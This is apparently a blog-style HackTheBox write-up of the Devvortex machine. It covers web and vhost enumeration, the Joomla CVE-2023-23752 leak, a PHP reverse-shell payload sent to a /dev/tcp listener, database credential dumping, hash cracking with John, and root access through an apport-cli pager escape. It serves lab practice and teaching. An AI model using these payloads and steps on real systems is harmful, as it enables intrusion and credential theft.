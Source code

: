 ```yaml
---
title: Devvortex Writeup - HackTheBox
date: 2023-12-29
categories: [Writeups, HTB]
tags: [Linux, HTB, CTF, Easy]
img_path: /assets/img/commons/devvortex/
image: devvortex.png
---
```


Hello!

In this write-up, we will dive into the **HackTheBox** [**Devvortex**](https://app.hackthebox.com/machines/577) machine.
It is a **Linux** machine on which we will carry out a **Web enumeration** that will lead us to a Joomla login panel. When we have entered the admin panel, we will be able to get a **reverse shell** and we will have gained access to the system.
Then, we will proceed to do a **privilege escalation** in order to own the system.


Let's go!

## Active recognition
---

As a first step, we will execute the `ping` command to verify that the target machine is active.

```bash
> ping -c 1 10.10.11.242
PING 10.10.11.242 (10.10.11.242) 56(84) bytes of data.
64 bytes from 10.10.11.242: icmp_seq=1 ttl=63 time=118 ms

--- 10.10.11.242 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 118.172/118.172/118.172/0.000 ms
```

## Port scaning
---

Next, we run a scan with `nmap` to identify open ports on the target machine.

```bash
nmap -sT -vvv 10.10.11.242

Nmap scan report for devvortex.htb (10.10.11.242)
Host is up (0.082s latency)
Not shown: 998 closed tcp ports (conn-refused)
PORT	STATE	SERVICE
22/tcp	open	ssh
80/tcp	open	http
```

After the port enumeration, we access to the browser to see what's on the http server.

![home](home.png)


## Web Enumeration
---
There doesn't seem to be anything interesting, so let's search for hidden directories with `dirbuster`.

```bash
gobuster dir -u http://devvortex.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -r
```

![gobuster1](gobuster_1.png)


There doesn't seem to be anything, let's see what's out there looking for **Virtual Hostings**.

```bash
gobuster vhost -u devvortex.htb -w /usr/share/seclists/Discovery/DNS/subdomains-topmillion-5000.txt
```

We found the virtual host "`dev.devvortex.htb`", let's access again the browser.


![dev_home](dev_home.png)


After that, we go back to search for hidden directories, and we get:

![gobuster2](gobuster_2.png)

Voilà! We found a directory "`/administrator`".

![admin](admin_page.png)


## Exploitation
---
Inspecting the page we found session cookies but, after trying to use them to access using burpsuite, we realize that it is a **rabbit hole**.


Searching for information on the internet, we found the tool `joomscan`, installed it and ran it against the machine.
We found that the server is using Joomla version 4.2.6, which is vulnerable to the [**CVE-2023-23752**](https://www.cvedetails.com/cve/CVE-2023-23752/)

On the `exploit-db` website we found a PoC, so we download it and test it against the server.

![exploit](exploit.png)


## Information gathering
---


### Credentials
As we can see, when executing the exploit we get some access credentials. We tried to use them through the SSH server but without success;
however, we were able to access the Joomla admin panel.

![dashboard](dashboard_admin.png)


### Obtaining a Reverse Shell
Investigating a little bit through the dashboard interface, we found (inside the System section) a subsection calles Administrator templates.
Inside, we found a pre-installated template, we acces and found this:

![templates](templates_dash.png)

To get a reverse shell, all we have to do is to inject a payload in any .php file and the open its path from the browser.

We open the **login.php** file and write the following payload:

```php
system('bash -c "bash -i >& /dev/tcp/10.10.14.120/443 0>&1"');
```

> NOTE: If you are going to use the payload, be sure to set your ip and port.


We save the modified file, open a new tab and access the file path while we set `netcat` to listen using the command:

```bash
nc -lnvp 443
```

And we are in!

### Obtaining the user flag
In order to get the user flag we have to access the system with the user logan. As we saw when we ran the exploit, logan was also registered in Joomla, therefore, it must alse be in the database.

We open `mysql`, but before, we create an interactive pseudo-terminal using:

```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

Now, we access `mysql`:

```bash
mysql -u lewis -p joomla --password=+++++++++
```

Once we are inside mysql, we can see what's inside using the instruction: `SHOW TABLES;`

We found 71 tables, but we are only interested in one: **sd4fg_users**. Let's see what contains:

```SQL
SELECT * FROM sd4fg_users;
```

![data](data_leak.png)

We can see the encrypted password. Using tools like Hashcat or JohnTheRipper we should be able to get the plaintext password easily.

```bash
john hash-file.txt --wordlists=/usr/share/wordlists/rockyou.txt
```

We get the following:

![passwd](logan_passwd.png)

We can now access via SSH as the user logan and, after that, we should be able to get the **user.txt** flag.

![user_flag](logan_flag.png)


## Privilege escalation
---
Now that we have user access to the system, let's look at how we can escalate privileges.

We start by looking for which processes are running with sudo permissions and, in addition, are visible to the user logan. We execute the command:

```bash
sudo -l
```

After running it, we can see that the user logan has sudo access to the **apport-cli** tool. We run `apport-cli -v` and get that the version running is 2.20.11

Searching the internet we find [this commit](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb)
that warns us of the [**CVE-2023-1326**](https://www.cvedetails.com/cve/CVE-2023-1326/) in this version and gives us a PoC to exploit it.

Al we need to do is execute the following:

```bash
sudo /usr/bin/apport-cli -c /var/crash/test.crash
```

After executing this, we can see that we are asked to select a letter, we press 'v', wait for a few secinds and as if it were magic, we get the pager.
Now, all we need to do is run `!/bin/bash` and we spawn a root terminal.

Finally, we have the whole system committed and, of course, we can now obtain the root flag of the machine.



> H4Ppy H4ck1ng!
